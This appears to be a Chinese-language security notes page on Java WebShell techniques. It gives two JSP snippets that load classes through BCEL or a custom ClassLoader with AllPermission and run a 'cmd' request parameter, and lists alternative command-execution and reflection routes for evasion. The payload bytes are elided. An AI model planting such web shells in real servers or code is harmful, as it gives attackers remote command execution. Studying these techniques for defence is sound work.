 WebShell
========================================

BCEL字节码
----------------------------------------
.. code:: java

    String bcelCode = "...";
    response.getOutputStream().write(String.valueOf(new ClassLoader().loadClass(bcelCode).getConstructor(String.class).newInstance(request.getParameter("cmd")).toString()).getBytes());

自定义类加载器
----------------------------------------
.. code:: java

    response.getOutputStream().write(new ClassLoader() {
        @Override
        public Class<?> loadClass(String name) throws ClassNotFoundException {
            if (name.contains("shell")) {
                return findClass(name);
            }
            return super.loadClass(name);
        }

        @Override
        protected Class<?> findClass(String name) throws ClassNotFoundException {
            try {
                byte[] bytes = Base64.getDecoder().decode("...");
                PermissionCollection pc = new Permissions();
                pc.add(new AllPermission());
                ProtectionDomain protectionDomain = new ProtectionDomain(new CodeSource(null, (Certificate[]) null), pc, this, null);
                return this.defineClass(name, bytes, 0, bytes.length, protectionDomain);
            } catch (Exception e) {
                e.printStackTrace();
            }
            return super.findClass(name);
        }
    }.loadClass("shell").getConstructor(String.class).newInstance(request.getParameter("cmd")).toString().getBytes());
    %>

执行命令变式
----------------------------------------
- java.lang.ProcessBuilder#start
- java.lang.Runtime#exec
- TemplatesImpl

基于反射
----------------------------------------
- class.forName
- MethodAccessor.invoke
- Method.invoke

其他Shell变式
----------------------------------------
- java.beans.Expression
- java.lang.ClassLoader
- java.net.URLClassLoader
- jdk.nashorn.internal.runtime.ScriptLoader
- ObjectInputStream.resolveClass
- ScriptEngine.eval
- ScriptEngineManager
- ToolProvider.getSystemJavaCompiler
